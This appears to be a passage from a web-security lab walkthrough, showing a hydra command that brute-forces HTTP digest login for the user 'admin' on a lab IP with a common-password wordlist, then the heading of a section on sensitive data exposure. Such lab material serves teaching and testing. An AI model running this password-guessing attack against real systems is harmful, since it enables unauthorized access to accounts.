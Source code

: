 **/digest**

![Alt text](ch6_page_images/image-136.png)

Let's attack it with **hydra**. We know the user "admin".

```bash
hydra -l admin -P /root/Desktop/wordlists/100-common-passwords.txt 192.86.45.3 http-get /digest/
```
![Alt text](ch6_page_images/image-138.png)

We enter the credentials.

![Alt text](ch6_page_images/image-137.png)

## Sensitive Data Exposure

An attacker can exploit sensitive data exposure vulnerabilities in a web application by extracting sensitive data from logs or error messages.
